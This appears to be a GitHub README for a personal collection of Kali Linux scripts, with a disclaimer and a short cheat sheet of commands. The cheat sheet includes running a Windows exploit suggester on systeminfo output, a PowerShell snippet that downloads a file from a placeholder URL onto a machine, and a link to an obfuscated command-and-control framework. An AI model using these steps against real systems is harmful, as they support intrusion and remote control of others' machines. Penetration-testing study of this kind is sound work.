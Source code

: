 # Yet Another Collection of Kali Linux Scripts
##Disclaimer: I dont recommend or condone using anything on here to anyone else for any reason. The scipts here may work, but most likely will break a system they are run on. If you use them you do so at your own risk. I do/have NEVER authorized,condoned, or recommend the use of anything in any of my repos for any reason. This is a collection of simple scripts I found useful with my own Kali OS for educational purposes only. I did not create any of the scripts downloaded via the shell scripts. All credit goes to the authors whos full URL or github account is listed in the script, please see their sites for more info.

##Helpful CMDs:
Scan Wifi info: iw wlan0 scan

Set File Attributes (Linux):chattr {arg} {FilePath}

systeminfo (Download output and run windows exploit suggestor)

$WebClient = New-Object System.Net.WebClient
$WebClient.DownloadFile("http(s)://URL/file","C:\path\file")

https://github.com/cobbr/ObfuscatedEmpire
